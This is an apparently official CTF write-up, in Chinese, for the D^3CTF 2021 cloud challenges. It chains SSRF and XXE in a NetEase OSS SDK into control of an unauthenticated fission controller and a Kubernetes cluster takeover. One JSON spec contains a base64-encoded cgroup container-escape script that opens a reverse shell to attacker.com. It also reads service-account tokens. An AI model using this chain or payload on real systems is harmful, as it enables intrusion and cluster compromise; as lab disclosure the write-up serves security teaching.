




# D^3CTF 2021 real_cloud 系列题目官方WriteUp

## real_cloud_storage

### 分析

题目主体形式是后端上传文件到 OSS，很容易想到的可能是去尝试攻击 OSS 的 Server 端、鉴权方式。但是其实 OSS 的 SDK 也可能存在安全问题，在用户不谨a慎的情况下就可能会影响到用户侧的安全。

### 有限的SSRF

题目中开发者将 OSSClient 需要使用的`endpoint`、`bucket`、`key`等参数都通过前端传进来:

```json
{
  "endpoint":"oss.cloud.d3ctf.io",
	"key":"test",
	"bucket":"bucket102638",
	"file":"MTIzMTIzMTIzMQ=="
}
```

那么首先这里就存在一个`SSRF`漏洞，我们可以设置`endpoint`和`bucket`为我们要发送请求的地址：

```json
{
  "endpoint":"target.com"
	"key":"index.php",
	"bucket":"www",
	"file":"MTIzMTIzMTIzMQ=="
}
```

发送到自己的服务器上可以看到这样的请求：

```http
Listening on [0.0.0.0] (family 0, port 10080)
Connection from [8.210.87.229] port 10080 [tcp/amanda] accepted (family 2, sport 38738)
PUT /index.php HTTP/1.1
Host: target.com
Authorization: NOS d3ctf:Aa7GW+kNlOEtMOZQ3TVW5Zdd+c0=
Date: Mon, 08 Mar 2021 14:23:52 UTC
Content-Type: application/octet-stream
Content-Length: 10
Connection: Keep-Alive
User-Agent: nos-sdk-java/1.2.2 Linux/4.15.0-135-generic OpenJDK_64-Bit_Server_VM/25.212-b04
Accept-Encoding: gzip,deflate

1231231231
```

当然，因为没有回显，这个`SSRF`的作用暂时相对有限。因此我们可以寻找进一步的利用。

### 代码审计:SSRF->XXE

从请求的`User-Agent`中我们可以看到这个 OSS SDK 使用的是网易云的 `nos-sdk-java/1.2.2`。可以在Github上找到[源码](https://github.com/NetEase-Object-Storage/nos-java-sdk)。

 对源码进行审计，因为我们是上传文件，所以重点关注`putObject`操作过程中是否存在安全问题。

这里到了另一个不容易想到的地方。我们很容易都会去寻找通过控制`NOSclient.putObject`方法在处理我们传入的参数的过程中有哪里可以造成漏洞。然而很容易忽略的一个可控点是，`SSRF`的 `response`也是一个可控点。

而在 OSS 中，Client 和 Server 的交互协议遵守 `AWS S3` 协议，并基于`SOAP`。那么有可能出现的一个问题就是 `XXE` 。 

而`nos-sdk-java`正存在这个问题。当其处理 Server 返回的异常响应时，直接解析了 `Body` 中的 `XML`，而没有禁用外部实体：

```java
//com/netease/cloud/services/nos/internal/NosErrorResponseHandler.java line 28

public ServiceException handle(HttpResponse errorResponse) throws Exception {
		/*
		 * We don't always get an error response body back from Nos. When we
		 * send a HEAD request, we don't receive a body, so we'll have to just
		 * return what we can.
		 */
		if (errorResponse.getContent() == null) {
			String requestId = errorResponse.getHeaders().get(Headers.REQUEST_ID);
			NOSException ase = new NOSException(errorResponse.getStatusText());
			ase.setStatusCode(errorResponse.getStatusCode());
			ase.setRequestId(requestId);
			fillInErrorType(ase, errorResponse);
			return ase;
		}

		Document document = XpathUtils.documentFrom(errorResponse.getContent());
		String message = XpathUtils.asString("Error/Message", document);
		String errorCode = XpathUtils.asString("Error/Code", document);
		String requestId = XpathUtils.asString("Error/RequestId", document);
		String resource = XpathUtils.asString("Error/Resource", document);

		NOSException ase = new NOSException(message);
		ase.setStatusCode(errorResponse.getStatusCode());
		ase.setErrorCode(errorCode);
		ase.setRequestId(requestId);
		ase.setResource(resource);
		fillInErrorType(ase, errorResponse);

		return ase;
	}
```

到这里利用方式就很清晰了：

```json
{
  "endpoint":"attacker.com"
	"key":"xxe.php",
	"bucket":"www",
	"file":"MTIzMTIzMTIzMQ=="
}
```

在自己的服务器上启动一个返回异常状态码的服务，输出 `XXE`的 payload 即可。

### 参考链接

出题思路参考自https://github.com/IBM/ibm-cos-sdk-java/issues/20

## real_cloud_serverless

### 分析

拿到第一步的 Flag 的同时会收到 Hint:`only cluster admin could see the next flag`。我们知道题目的后端部署于`serverless`环境， 结合该Hint，可以猜出是要攻击 `kubernetes`集群，成为`cluster-admin`。

### 信息收集

对`kubernetes`有一定了解的话，自然会想到通过`XXE`读取 `var/run/secrets/kubernetes.io/serviceaccount` 目录下的关键文件。

读取`var/run/secrets/kubernetes.io/serviceaccount/namespace`可以发现当前集群的命名空间是`fission-function`。通过搜索可以发现[fission](https://fission.io/)是一个开源的基于`k8s`的 `serverless` 框架。

那么接下来的目标就比较明确了，尝试寻找`fission`的安全问题，进而控制集群。

### Fission初探

通过查看文档、部署测试、查看源码等方式可以快速了解`fission`的基础使用方法，这里我们介绍两个最基本的：

```bash
# 使用 fission/python-env 镜像创建名为 python 的 environment
fission env create --name python --image fission/python-env

# 创建一个名为 hello_world、代码为 code.py 的函数，函数运行在上面创建的 python 环境
fission fn create --name hello_world --env python --code name.py
```

运行完上面两条命令后，`fission`会通过`k8s`调度，创建函数对应的`Docker`容器。

同样通过[文档](https://docs.fission.io/docs/concepts/components/core/controller/)，我们可以了解到`fission`的基本架构：


可以看出，我们上面使用`fission`客户端进行创建资源的请求，都是发送到`fission-controller`进行处理，进而进行下一步调度，而客户端和`fission-controller`的交互是通过`REST API`进行的。

### 利用Fission的安全问题完成攻击

通过测试发现，`fission-function`容器与`fission-controller`之间默认并没有网络隔离: 在`fission-function`容器中，我们只需要按照`service.namespace`这种`k8s`默认的跨命名空间访问服务的方式，访问`controller.fission`，即可访问到`fission-controller`服务：



而更严重的是`fission-controller`默认是**未鉴权**的！

也就是说，如果我们可以控制`fission-function`容器发送请求，就可以通过请求`fission-controller`来实现对`fission`的控制。

而我们现在刚好有两个不同的`SSRF`,第一个是我们最开始说的NOS Client参数可控导致的`SSRF`，这个`SSRF`是`PUT`请求，`Path`和`Body`内容可控，但是没有回显。

第二个是我们可以通过`XXE`进行`GET`请求的`SSRF`，并通过外带的方式获得响应的`Body`。

那么我们接下来就可以查看`fission-controller`的 [API 文档](https://github.com/fission/fission/blob/master/pkg/controller/api.go)，看看如何利用这两个`SSRF`。

上面说了`fission-controller`使用`REST API`，那么`PUT`请求就可以对`fission`的资源进行更新操作。但这里有一个问题，`fission-controller`要求请求的 `Body` 是 `json` 格式，可是我们并没有办法控制请求的`Header`，NOS Client发出的请求的 `Content-Type`是` application/octet-stream`。那么我们还可以利用这个`SSRF`更新资源吗？答案是肯定的，`fission-controller`在这里的实现并不严谨，完全无视了`Content-Type`头，而是直接将请求的`Body`进行`json`解码：



结合文档和实际测试可以发现，要对`fission`的资源进行更新，需要获得被修改资源的名字和两个不确定的参数：`uuid`和`generation`，而这些都需要通过的`GET`请求的`SSRF`来获取。

那么我们可以通过这两个`SSRF`的搭配使用，相互补充，完成`fission`资源的更新。接下来我们就需要进一步尝试，在可以控制`fission`的资源的情况下，如何进一步攻击`k8s`集群。

同过查看[官方文档](https://docs.fission.io/docs/spec/podspec/)和`fission-controller`的[API 文档](https://github.com/fission/fission/blob/master/pkg/controller/api.go)，可以发现最简单的方法就是修改`environments`，因为通过`environments`的`spec`字段，我们可以设置`Docker`容器的`SecurityContext`和`Privileged`属性：

```json
"spec": {
  "version": 2,
  "runtime": {
    "image": "",
    "podspec": {
      "containers": [
        {
          "name":"",
          "image": "",
          "command": [],
          "securityContext": {
            "privileged": true            
          }
        }
      ]
    }
},
```

这使得我们可以直接通过特权容器进行逃逸，控制宿主机，也就是`k8s node`。

至此我们的攻击思路已经很清晰了，整理一下：

1. 通过`XXE`访问`controller.fission/v2/environments`，获得当前集群中所有的`fission-environments`资源的信息。

2. 在上面获得的`environments`列表中选择一个进行修改，编辑其`json`数据中对应的`spec`字段：将容器特权化，执行逃逸脚本、反弹宿主机的反弹shell:

   ```json
    "kind": "Environment",
     "apiVersion": "fission.io/v1",
     "metadata": {...},
     "spec": {
       "version": 2,
       "runtime": {
         "image": "fission/jvm-env",
         "podspec": {
           "containers": [
             {
   			"name":"hack",
               "image": "fission/jvm-env",
               "command": [
                 "/bin/sh",
                 "-c",
                 "echo -n 'bWtkaXIgLXAgL3RtcC9jZ3JwOyBtb3VudCAtdCBjZ3JvdXAgLW8gbWVtb3J5IGNncm91cCAvdG1wL2NncnAgJiYgbWtkaXIgLXAgL3RtcC9jZ3JwL2hhY2tlZAplY2hvIDEgPiAvdG1wL2NncnAvaGFja2VkL25vdGlmeV9vbl9yZWxlYXNlCmhvc3RfcGF0aD1gc2VkIC1uICdzLy4qXHBlcmRpcj1cKFteLF0qXCkuKi9cMS9wJyAvZXRjL210YWJgCmVjaG8gIiRob3N0X3BhdGgvY21kX2ZyciIgPiAvdG1wL2NncnAvcmVsZWFzZV9hZ2VudAplY2hvICcjIS9iaW4vc2gnID4gL2NtZF9mcnIKZWNobyAiYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC9hdHRhY2tlci5jb20vMTAwODAgMD4mMScgICIgPj4gL2NtZF9mcnIKY2htb2QgYSt4IC9jbWRfZnJyCnNoIC1jICJlY2hvIFwkXCQgPiAvdG1wL2NncnAvaGFja2VkL2Nncm91cC5wcm9jcyI=' | base64 -d | sh"
               ],
               "securityContext": {
                 "privileged": true            
               }
             }
           ]
         }
       },
       "poolsize": 3,
       "keeparchive": true
     }
   ```
   
   
   
3. 将上述对象的`json`代码信息`base64`编码，通过`PUT`请求的`SSRF`发送到`controller.fission/v2/environments/{选择的env名字}`,完成攻击，坐等宿主机shell到手：

   

那么现在还剩下最后一个问题，我们现在只是有了一台`node`节点的权限，上面只有`fission`的一些服务，如何成为`cluster-admin`呢？

这就又要得益于`fission`的又一个安全隐患——**未遵循最低权限原则**：`fission-controller`使用的`ServiceAccount`为`fission-svc`,绑定了`cluster-admin`的权限：

```yaml
---
# Source: fission-all/templates/deployment.yaml
kind: ClusterRoleBinding
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: fission-crd
subjects:
- kind: ServiceAccount
  name: fission-svc
  namespace: fission
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
---
```

因此我们只要获取到`fission-controller`容器内的`var/run/secrets/kubernetes.io/serviceaccount/token`文件即可成为`cluster-admin`。

Flag在集群的`secrets`里：



## 总结

最近在学习云安全相关的知识，感觉CTF里出现云相关的东西还是比较少的，于是就出这了两道题目，近期的两个感受也可以从题目中体现：

1. 针对云组件的安全要求要更加严格，因为云的用户数量大，一个组件即使是仅仅存在利用条件很苛刻的安全风险，受影响的用户数量也可能会很大。
2. 云服务的默认安全很重要，如果服务默认的使用方法就存在安全风险，那么就一定会导致安全事件。


